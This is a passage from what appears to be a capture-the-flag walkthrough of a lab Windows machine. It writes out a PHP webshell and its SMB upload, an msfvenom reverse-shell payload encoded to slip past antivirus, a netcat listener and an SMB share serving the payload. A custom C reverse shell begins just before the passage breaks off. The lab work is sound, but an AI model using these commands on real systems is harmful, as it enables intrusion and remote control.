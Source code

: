 This just results in a `404 - File or directory not found`? Try a basic PHP webshell since that is running on TCP port 80:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.php;quit' # 92g!mA8BGjOirkL%OG*&
curl -s --data-urlencode 'c=whoami' http://10.10.10.97:8808/bubba.php
```

And this results in a valid webshell:

![user1](./secnotes/user1.png)

However, after running a few commands for a bit, the webshell returns a `404 - File or directory not found` and is removed from the share? It looks like there is an annoying task that is deleting files here... Use the web shell to try and get a dedicated reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver -smb2support BUBBA .
nc -nvlp 6969
curl -s --data-urlencode 'c=cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe' http://10.10.10.97:8808/bubba.php
```

Hmmm this results in a valid download over SMB but no shell connection? Maybe this is Windows Defender blocking the shell for anti-virus... Try the following custom reverse shell:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
```